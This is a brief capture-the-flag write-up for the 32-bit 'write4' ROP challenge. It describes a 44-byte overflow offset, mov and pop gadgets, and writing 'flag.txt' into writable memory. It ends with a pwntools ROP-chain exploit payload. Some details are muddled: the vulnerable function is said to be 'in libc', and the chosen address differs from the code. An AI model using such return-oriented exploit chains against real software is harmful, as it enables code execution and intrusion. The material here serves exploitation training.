 This is a Quick Writeup on **Write4** challenge

## For 32 bit

In this challenge , there is a buffer overflow vunerability in function *pwnme* in libc . As this part is repeated in previous challenges , eip offset will be 44 directly.

On small reversing , we see **print_file** function which do *push eax" takes an location of where filename is stored . So our task is to write file name which is "flag.txt" in a binary with the help of ROPgadgets .

First we try to find a gadget which help us to mov some value to some *location*
![mov]("./img/mov32.png")
Cool we found a gadget which will mov ebp value to edi location . lets try to find a ROPgadget which will assign values to these registers.
![popop]("./img/popop32.png")
now we have tools to write in a memory .
lets find the part with read & write permissions 
![vmmap]("./img/vmmap32.png")
ok we got multiple region I choosen 0x804a0c4 location to write .
now as the file name is "flag.txt" and we are using ebp which can store only 4 bytes of data. so in first writing we just wrote "flag" at that location , 4 bytes after that location we write ".txt". After writing we are gonna call print_file function , I just given him  filename location just after calling , but in GDB session I saw fopen taking ebp+8 and my filename location 4 bytes earlier  , so I added 4 bytes Junk before .

Final Exploit looks like this:
```python
printf = p32(0x080483D0)
# 0x08048543 : mov dword ptr [edi], ebp ; ret
mov = p32(0x08048543)
# 0x080485aa : pop edi ; pop ebp ; ret
popop = p32(0x080485aa)
write1 = p32(0x804a0c0)
write2 = p32(0x804a0c4)

payload = flat(
    b"a"*44,
    popop,
    write1,
    b'flag',
    mov,
    popop,
    write2,
    b'.txt',
    mov,     
    printf,
    b"xxxx",
    write1  
)
```















